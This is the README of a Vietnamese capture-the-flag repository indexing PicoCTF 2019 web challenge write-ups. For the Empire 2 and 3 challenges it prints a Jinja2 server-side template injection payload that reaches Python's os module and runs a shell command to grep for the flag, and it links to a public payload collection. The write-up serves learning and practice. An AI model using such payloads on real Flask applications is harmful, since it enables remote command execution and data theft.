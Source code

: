 # PicoCTF-2019
---
- 1 chút yêu cầu nho nhỏ cho người đọc bài:
  - Hiểu biết về `Burp suite`, ít thôi, không cần nhiều
  - Biết *view source*, *F12* v chỉnh sửa cookie
  - Phần lớn các tool mình viết ra mình sẽ không giải thích (chủ yếu là python), mình chỉ giải thích về payload. Nếu không hiểu thì có thể *research* để biết thêm. *research* cũng không hiểu có thể post lên nhóm chat hoặc inbox hỏi mình
  - 1 vài tool nhỏ về *javascript* thì mình có dùng cách hơi xàm, nhưng vẫn ra flag. Mình chỉ lấy tool lại lúc mình giải bài này thôi, lúc đó cũng không rảnh mà viết ra 1 cái hoàn chình, thà làm tay còn nhanh hơn. Cũng vì 1 phần kiến thức *javascript* của mình hơi ít nữa
  
- Về các lỗi mà người ra đề đưa ra mình sẽ tổng hợp 1 cách chi tiết nhất có thể nếu có thời gian

- Về phần câu Empire 1 nếu có thời gian mình sẽ giải lại theo cách hay hơn (s)

- Về phần câu Empire 2 và 3 có cách nhanh hơn là dump data trực tiếp. Tuy nhiên cần nhiều kiến thức về flask. Các bạn có thể thử các payload này

- Payload Empire 2: `{{ [].__class__.__base__.__subclasses__()[93].__init__.__globals__["sys"].modules["os"].popen("grep -RI pico .").read() }}`

- Payload Empire 3: `{{ [].__class__.__base__.__subclasses__()[93].__init__.__globals__["sys"].modules["os"].popen("grep -RI pico .").read() }}`

- 2 payload này đều như nhau đó là dump data trực tiếp nhờ tìm kiếm bằng grep thông qua module *sys* và *os* của python. Có thể đây là sơ hở của đề. Ngoài ra payload để dump data trực tiếp còn rất nhiều, có thể tham khảo trong link này: [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

---
### Mục lục

#### 1. [Insp3ct0r](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Insp3ct0r)

#### 2. [dont use client side](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/dont%20use%20client%20side)

#### 3. [logon](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/logon)

#### 4. [where are the robots](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/where%20are%20the%20robots)

#### 5. [Client side again](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Client%20side%20again)

#### 6. [Open to admins](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Open%20to%20admins)

#### 7. [picobrowser](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/picobrowser)

#### 8. [Irish Name Repo 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%201)

#### 9. [Irish Name Repo 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%202)

#### 10. [Empire 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%201)

#### 11. [Irish Name Repo 3](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Irish%20Name%20Repo%203)

#### 12. [JaWT Scratchpad](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/JaWT%20Scratchpad)

#### 13. [Java Script Kiddie](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Java%20Script%20Kiddie)

#### 14. [Empire 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%202)

#### 15. [Java Script Kiddie 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Java%20Script%20Kiddie%202)

#### 16. [cereal hacker 1](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/cereal%20hacker%201)

#### 17. [Empire 3](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/Empire%203)

#### 18. [cereal hacker 2](https://github.com/KaitoRyouga/PicoCTF-2019/tree/master/cereal%20hacker%202)
